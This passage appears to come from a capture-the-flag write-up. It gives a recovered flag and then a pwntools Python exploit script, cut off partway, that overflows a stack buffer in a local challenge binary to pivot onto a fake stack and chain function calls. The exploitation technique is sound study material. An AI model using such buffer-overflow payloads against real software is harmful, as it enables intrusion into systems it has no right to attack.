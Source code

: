 Trying a few different variants to get something readable, we end up with this:

`s3`, `e_`, `y0`, `u_`, `0f`, `f_`, `p1`, `st`, `3!`

which results in the following flag:

Flag: BDayCTF{s3e_y0u_0ff_p1st3!}



## [b0bb's Challenge](https://twitter.com/0xb0bb/status/1250046144421474304)

```python
#!/usr/bin/env python3

from pwn import *

ADDR_BOF_OFF = 0x0804861E
ADDR_INIT_MEM = 0x080485D0
ADDR_INIT_BANNER = 0x08048596
ADDR_PRINT_BANNER = 0x08048649
ADDR_EXIT = 0x08048613

FAKE_STACK = 0x804d000 - 0x100

r = process('./challenge')
r.recvuntil('bof: ')

pause()

payload1 = b''
#payload1 += cyclic(29)
payload1 += b'A'*cyclic_find(0x61616165)
payload1 += p32(FAKE_STACK) # Writable area
payload1 += p32(ADDR_BOF_OFF)
r.sendline(payload1)

payload2 = b''
#payload2 += cyclic(29)
payload2 += b'B'*cyclic_find(0x61616165)
payload2 += p32(FAKE_STACK + 1*4)
payload2 += p32(ADDR_INIT_MEM)
payload2 += p32(ADDR_BOF_OFF)
r.sendline(payload2)

payload2 = b''
#payload2 += cyclic(29)
payload2 += b'B'*cyclic_find(0x61616165)
payload2 += p32(FAKE_STACK + 2*4)
payload2 += p32(ADDR_INIT_BANNER)
payload2 += p32(ADDR_BOF_OFF)
r.sendline(payload2)

payload2 = b''
#payload2 += cyclic(29)
payload2 += b'B'*cyclic_find(0x61616165)
payload2 += p32(FAKE_STACK + 3*4)
payload2 += p32(ADDR_PRINT_BANNER)
payload2 += p32(ADDR_BOF_OFF)
r.sendline(payload2)

payload2 = b''
#payload2 += cyclic(29)
payload2 += b'B'*cyclic_find(0x61616165)
payload2 += p32(FAKE_STACK + 4*4)
```